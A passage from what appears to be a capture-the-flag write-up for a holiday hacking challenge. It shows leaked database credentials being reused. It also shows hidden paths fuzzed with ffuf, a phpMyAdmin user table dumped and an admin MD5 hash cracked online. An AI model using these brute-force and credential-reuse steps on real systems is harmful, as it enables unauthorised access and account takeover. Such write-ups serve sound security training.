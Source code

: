 ```php
        return self::$write;
    }
```

+ In `self::$write = new DbConnect( true,  'forum', 'forum','6HgeAZ0qC9T6CQIqJpD' );`, we can see username and password.

`username - forum, password - 6HgeAZ0qC9T6CQIqJpD`.

+ Next up , as we got the database username and password, first I try to logged into /forum/login, but it was incorrect, next up idea was to bruteforce.
+ In bruteforce, I've used the wordlist as -  https://github.com/danielmiessler/SecLists/blob/d5271820d00935387bdff87d0a79ae5513b47ce3/Discovery/Web-Content/api/objects.txt.

+ Executed the command using ffuf tool - `./ffuf -w /Users/kunalpandey/Desktop/objects.txt -u "https://hackyholidays.h1ctf.com/forum/FUZZ" `

{F1139501}

**Response**

```
2                       [Status: 200, Size: 1885, Words: 512, Lines: 58]
1                       [Status: 200, Size: 2249, Words: 788, Lines: 64]
login                   [Status: 200, Size: 1569, Words: 396, Lines: 34]
phpmyadmin              [Status: 200, Size: 8880, Words: 956, Lines: 79]
```

+ So, there is an /forum/phpmyadmin path. I've used the `username - forum, password - 6HgeAZ0qC9T6CQIqJpD` inside phpmyadmin page and logged in successfully, I searched for the tables and finally in the table users, I got the following information:

**Request**
https://hackyholidays.h1ctf.com/forum/phpmyadmin?db=forum&table=user

**Response**

{F1139502}

```
id	username	password	admin
1	grinch	35D652126CA1706B59DB02C93E0C9FBF	1
2	max	388E015BC43980947FCE0E5DB16481D1	
```

+ In the column "admin", it was 1 for username grinch and thus we can say that grinch is an admin. However , password was encrypted. Now, to crack the password, one of the best site can be used over here is https://crackstation.net.

+ In this site, entered the encrypted hash as 35D652126CA1706B59DB02C93E0C9FBF.

{F1139505}

+ Within one second, got the cracked hash as

```
Hash	Type	Result
35D652126CA1706B59DB02C93E0C9FBF	md5	BahHumbug
```
